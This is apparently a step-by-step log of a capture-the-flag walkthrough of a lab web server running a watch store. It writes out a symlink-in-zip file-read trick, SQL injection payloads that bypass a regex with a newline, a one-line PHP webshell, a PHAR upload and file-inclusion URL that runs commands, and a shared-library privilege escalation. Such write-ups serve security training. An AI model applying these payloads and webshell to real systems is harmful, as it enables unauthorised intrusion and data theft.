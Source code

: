 * Findings: The target IP is 10.10.11.229, Action: running nmap with command `nmap -p- --min-rate 10000 10.10.11.229`, Reasoning: to discover open ports on the target, Result: found port 22 (SSH) and port 80 (HTTP) open.
* Findings: The open ports are 22 (SSH) and 80 (HTTP), Action: running nmap with command `nmap -p 22,80 -sCV 10.10.11.229`, Reasoning: to gather more detailed information about the services running on the open ports, Result: identified OpenSSH 9.0p1 and Apache httpd 2.4.54 running on Ubuntu.
* Findings: The website is for a watch store, Action: exploring the website, Reasoning: to understand its structure and functionality, Result: discovered a file upload feature on `/upload.php` that accepts zip files containing a PDF.
* Findings: The upload feature accepts zip files with a PDF inside, Action: creating a zip file containing a sample PDF, Reasoning: to test the upload functionality, Result: successfully uploaded the zip file and received a link to access the uploaded PDF.
* Findings: The upload feature restricts to a single PDF file in the zip, Action: testing various file types and structures, Reasoning: to determine the limits of the upload functionality, Result: confirmed that only valid zip files containing a single PDF are accepted.
* Findings: The upload feature does not handle symbolic links correctly, Action: creating a symbolic link to `/etc/passwd` and zipping it, Reasoning: to test if the upload can read sensitive files, Result: uploaded the zip file but received an empty PDF when accessing it.
* Findings: The upload feature returns an empty PDF for symbolic links, Action: creating a symbolic link to `/home/rektsu/user.txt` and zipping it, Reasoning: to retrieve the user flag, Result: successfully accessed the user flag through the uploaded PDF link.
* Findings: The Apache configuration file is located at `/etc/apache2/sites-enabled/000-default.conf`, Action: using the script to read the Apache config file, Reasoning: to gather more information about the server configuration, Result: retrieved the standard Apache configuration without sensitive information.
* Findings: The script can read files from the server, Action: creating a Python script to automate file reading, Reasoning: to simplify the process of reading various files, Result: successfully read the contents of `/etc/hostname` and other files using the script.
* Findings: The intended path for Zipping is the `shop` directory, Action: Explore the `index.php` file, Reasoning: To understand how the application handles page requests and potential vulnerabilities, Result: Discovered that `index.php` includes pages based on user input, which could lead to local file inclusion vulnerabilities.

* Findings: The `index.php` file includes `functions.php` and calls `pdo_connect_mysql`, Action: Analyze `functions.php`, Reasoning: To understand how the database connection is established and if there are any security implications, Result: Noted that the MySQL user is `root`, indicating potential high permissions.

* Findings: The `product.php` file checks for an `id` parameter in the URL, Action: Review the input validation logic, Reasoning: To identify any weaknesses in how user input is handled, Result: Found that it uses a regex to filter input but does not prevent SQL injection.

* Findings: The regex used in `product.php` allows for potential bypass, Action: Test input with SQL injection, Reasoning: To see if the application is vulnerable to SQL injection attacks, Result: Successfully executed SQL injection by using `%0A` to bypass the regex check.

* Findings: The SQL query in `product.php` is constructed unsafely, Action: Attempt to manipulate the SQL query, Reasoning: To exploit the vulnerability and retrieve unauthorized data, Result: Managed to load the page with a different product by injecting `id=%0A100'+or+'1'='1`.

* Findings: The regex filtering allows for certain characters but not parentheses, Action: Analyze the regex structure, Reasoning: To understand how it affects SQL injection attempts, Result: Confirmed that the regex allows for injections that do not end with a non-digit character.

* Findings: The application redirects when invalid input is detected, Action: Test various SQL injection payloads, Reasoning: To determine the limits of the input validation, Result: Discovered that certain payloads like `id=%0A100'--+-` result in a redirect, indicating the regex is still enforcing some checks.

* Findings: The application uses PDO for database interactions, Action: Investigate how prepared statements are implemented, Reasoning: To assess the risk of SQL injection, Result: Found that while prepared statements are used, the input is still concatenated into the SQL query, leading to vulnerabilities.
* Findings: The application uses `preg_match` for input validation, Action: Analyzing the regex used in the application, Reasoning: To understand how input is filtered and identify potential bypass methods, Result: Identified that the regex allows for newline characters to bypass checks.
* Findings: The URL `http://10.10.11.229/shop/index.php?page=product&id=3` is vulnerable to SQL injection, Action: Testing various payloads in the `id` parameter, Reasoning: To determine if the application is susceptible to SQL injection attacks, Result: Successful injection with `id=%0A3` and `id=%0A100'+or+'1'='1`.
* Findings: The SQL query structure is `SELECT * FROM products WHERE id = '$id'`, Action: Crafting SQL injection payloads to manipulate the query, Reasoning: To extract data from the database, Result: Successfully retrieved data by injecting `id=%0A100'+or+'1'='1`.
* Findings: The regex used for input validation checks for non-digit characters at the end, Action: Testing payloads that end with digits, Reasoning: To bypass the second part of the regex validation, Result: Payloads like `id=%0A100'--+-1` were successful.
* Findings: The application uses MySQL as the database, Action: Attempting UNION injection to extract data, Reasoning: To enumerate the database structure, Result: Found that the products table likely has 8 columns.
* Findings: The application connects to MySQL as the root user, Action: Checking user privileges in the database, Reasoning: To identify potential escalation paths, Result: Discovered the root user has the FILE privilege.
* Findings: The application allows writing files to the server, Action: Crafting a payload to write a PHP webshell, Reasoning: To gain remote code execution, Result: Successfully wrote a PHP file to `/dev/shm`.
* Findings: The webshell executes PHP code, Action: Accessing the webshell via a browser, Reasoning: To confirm that the webshell is operational, Result: Successfully executed PHP code and displayed PHP info.
* Findings: The webshell can execute system commands, Action: Crafting a reverse shell command, Reasoning: To gain a shell on the target machine, Result: Established a reverse shell connection.
* Findings: The user `rektsu` can run the `stock` binary as root, Action: Checking the binary's functionality, Reasoning: To determine if it can be exploited for privilege escalation, Result: Found that it prompts for a password.
* Findings: The `stock` binary has a potential password in its strings, Action: Attempting to use the found password, Reasoning: To gain access to the binary's functionality, Result: Successfully accessed the menu of the `stock` binary.
* Findings: The `stock` binary attempts to load a shared library, Action: Creating a malicious shared object, Reasoning: To execute code when the binary loads the library, Result: Gained a root shell upon running the `stock` binary.
* Findings: The application has a vulnerability related to null bytes in zip filenames, Action: Creating a zip file with a null byte in the filename, Reasoning: To exploit the file upload mechanism, Result: Successfully uploaded a zip file that bypassed filename checks.
* Findings: The application uses `7z` to extract zip files, Action: Testing the extraction of a zip file with a null byte, Reasoning: To see how the application handles the filename, Result: The file was extracted without the null byte being recognized.
* Findings: The application checks for `.pdf` extensions, Action: Uploading a zip file with a `.pdf` extension, Reasoning: To bypass the file type validation, Result: Successfully uploaded the zip file containing a PHP webshell.
* Findings: The application allows access to files via LFI, Action: Accessing the uploaded webshell through LFI, Reasoning: To execute commands on the server, Result: Successfully executed commands via the webshell.
* Findings: PHAR files can be used to bypass file existence checks, Action: Creating a PHAR file containing a webshell, Reasoning: To exploit the LFI vulnerability, Result: Successfully uploaded and accessed the webshell via PHAR.
* Findings: PHP has a concept of PHAR files that can be accessed using the `phar://` filter, Action: demonstrated the use of `phar://` to access files within a PHAR archive, Reasoning: to show how PHAR files can be exploited in the context of Local File Inclusion (LFI), Result: confirmed that files inside a PHAR archive can be accessed and checked for existence using `file_exists`.

* Findings: Created a simple text file named `test.txt` and zipped it into `test.zip`, Action: used the command `zip test.zip test.txt`, Reasoning: to create a PHAR-compatible file that can be accessed via the `phar://` filter, Result: successfully created a zip file containing the text file.

* Findings: Accessed the contents of `test.txt` using PHP, Action: executed `echo file_get_contents('phar://test.zip/test.txt');`, Reasoning: to verify that the contents of the file can be read through the `phar://` filter, Result: output confirmed the contents as "this is a test".

* Findings: Verified the existence of the file using `file_exists`, Action: executed `if (file_exists('phar://test.zip/test.txt')) { echo "exists"; }`, Reasoning: to demonstrate that `file_exists` returns true for files inside a PHAR archive, Result: output confirmed that the file exists.

* Findings: Renamed `test.zip` to `test.pdf`, Action: executed `cp test.zip test.pdf`, Reasoning: to show that the file extension does not affect access via the `phar://` filter, Result: confirmed that the file can still be accessed using the new name.

* Findings: Created a web shell script named `shell.php`, Action: wrote the PHP code `<?php system($_REQUEST['cmd']); ?>`, Reasoning: to create a script that allows command execution via HTTP requests, Result: web shell script created successfully.

* Findings: Zipped the web shell into `shell.pdf`, Action: executed `zip shell.pdf shell.php`, Reasoning: to prepare the web shell for upload in a PHAR-compatible format, Result: confirmed that `shell.php` was added to `shell.pdf`.

* Findings: Created a zip archive named `shell.zip` containing `shell.pdf`, Action: executed `zip shell.zip shell.pdf`, Reasoning: to create a final archive that can be uploaded, Result: confirmed that `shell.pdf` was added to `shell.zip`.

* Findings: Uploaded `shell.zip` to the target application, Action: performed the upload through the web interface, Reasoning: to exploit the LFI vulnerability and gain access to the web shell, Result: received a link to the uploaded file.

* Findings: Located the uploaded file at a specific path, Action: accessed the file using the URL `http://10.10.11.229/shop/index.php?page=phar:///var/www/html/uploads/ea409d50349a8436fe49f7ec66aa6132/shell.pdf/shell&cmd=id`, Reasoning: to execute a command on the server through the web shell, Result: successfully executed the command `id`, revealing the user ID and group ID of the web server process.
